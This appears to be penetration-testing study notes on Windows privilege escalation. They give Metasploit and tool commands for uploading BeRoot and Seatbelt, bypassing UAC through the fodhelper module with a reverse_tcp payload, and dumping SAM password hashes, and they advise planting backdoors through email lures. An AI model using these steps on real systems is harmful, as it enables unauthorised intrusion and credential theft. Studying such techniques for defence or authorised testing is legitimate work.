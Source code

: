# Escalate Privileges

Perform escalate privileges by using user account passwords obtained in the first step of system hacking. In privileges escalation, you will attempt to gain system access to the target system, and then try to attain higher-level privileges within that system. In this step, you will use various privilege escalation techniques such as named piped impersonation, misconfigured service exploitation, pivoting, and relaying to gain higher privileges to the target system.

Privilege escalation is the process of gaining more privileges than were initially acquired. Here, you can take advantage of design flaws, programming errors, bugs, and configuration oversights in the OS and software application to gain administrative access to the network and its associated applications.

Backdoors are malicious files that contain Trojan or other infectious application that can either halt the current working state of a target machine or even gain partial or complete control over it. Here, you need to build such backdoors to gain remote access to the target system. You can send these backdoors through email, file-sharing web applications, and shared network drives, among other methods, and entice the users to execute them.

Privileges are a security roles assigned to users for specific programs, features, OSes, functions, files, or codes. They limit access by type of user. Privilege escalation is required when you want to access system resources that you are not authorized to access. It takes place in two forms: vertical privilege escalation and horizontal privilege escalation.&#x20;

* **Horizontal Privilege Escalation**: An unauthorized user tries to access the resources, functions, and other privileges that belong to an authorized user who has similar access permissions.&#x20;
* **Vertical Privilege Escalation**: An unauthorized user tries to gain access to the resources and functions of a user with higher privileges such as an application or site administrator.

***

## Privilege Escalation tools and Exploit Client-side Vulnerabilities

Privilege escalation tools such as **BeRoot** and **GhostPack Seatbelt** allow you to run a configuration assessment on a target system to find information about the underlying vulnerabilities of system resources such as services, file and directory permissions, kernel version, and architecture (Also **LinPEAS**). Using this information, you can find a way to further exploit and elevate the privileges on the target system.

Exploiting client-side vulnerabilities allows you to execute a command or binary on a target machine to gain higher privileges or bypass security mechanisms. Using these exploits, you can further gain access to privileged user accounts and credentials.

### BeRoot

Allow to run a configuration assessment on a target system to find out information about its underlying vulnerabilities, services, file and directory permissions, kernel version, architecture, as well as other data. Using this information, you can find a way to further exploit and elevate the privileges on the target system.

1. Upload the application beRoot.exe

If using metasploit, type:

```
upload /path/to/file/beRoot.exe
```

2. Run the file&#x20;

The result appears, displaying information about service names along with their permissions, keys, writable directories, locations, and other vital data. Can further scroll down to view the information related to startup keys, task schedulers, WebClient vulnerabilities, and other items.

Can find further vulnerabilities in the resulting services and attempt to exploit them to escalate your privileges in the target system. Windows privileges can be used to escalated privileges. These privileges include **SeDebug, SeRestore & SeBackup & SeTakeOwnership, SeTcb & SeCreateToken, SeLoadDriver, and SeImpersonate & SeAssignPrimaryToken.**

### **GhostPack Seatbelt**

To gather host information and perform security checks to find insecurities in the target system.

If using metasploit, type:

```
upload /path/to/file/Seatbelt.exe
shell
```

when the shell already changed, type below to gather information about AMSIProviders, **AntiVirus**, **AppLocker** etc.

```
Seatbelt.exe -group=system
```

Type below to gather information about **ChromiumPresence, CloudCredentials, CloudSyncProviders, CredEnum, dir, DpapiMasterKeys,** etc.

```
Seatbelt.exe -group=user
```

Type below to gather information about **ChromiumBookmarks, ChromiumHistory, ExplicitLogonEvents, FileInfo etc.**

```
Seatbelt.exe -group=misc
```

<figure><img src="../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

### Bypass User Account Control (UAC) setting: Named Pipe Impersonation Technique

to escalate the privileges using the Named Pipe Impersonation Technique. In metasploit, type:

```
run post/windows/gather/smart_hashdump
```

If the meterpreter require admin privileges to perform such actions, try to escalate the privileges by issuing a **getsystem** command to attempts to elevate the user privileges.

```
getsystem -t 1
```

if access denied, try to bypass the UAC setting that is blocking from gain unrestricted access.

Bypass **Windows UAC Protection** via **FodHelper Registry Key**.

Type **background** to to move aside the session first, do this and configure the options.

```
use exploit/windows/local/bypassuac_fodhelper
show options
```

observe that the **SESSION** is required, type:

```
set SESSION 2
```

Make sure to configure the payload to **windows/meterpreter/reverse\_tcp.**

type **exploit** or **run** to begin exploit the UAC.

```
set payload windows/meterpeter/reverse_tcp
exploit
```

If the UAC exploit successfully bypassed, type:

```
getuid # check the status of current user ID
getsystem -t 1 # re-issue command to elevate privileges
```

Now try to obtain password hashes located in the SAM file. Now this has successfully extracts the NTLM hashes and display them. Can further crack these password hashes to obtain plaintext passwords.

```
run post/windows/gather/smart_hashdump
```




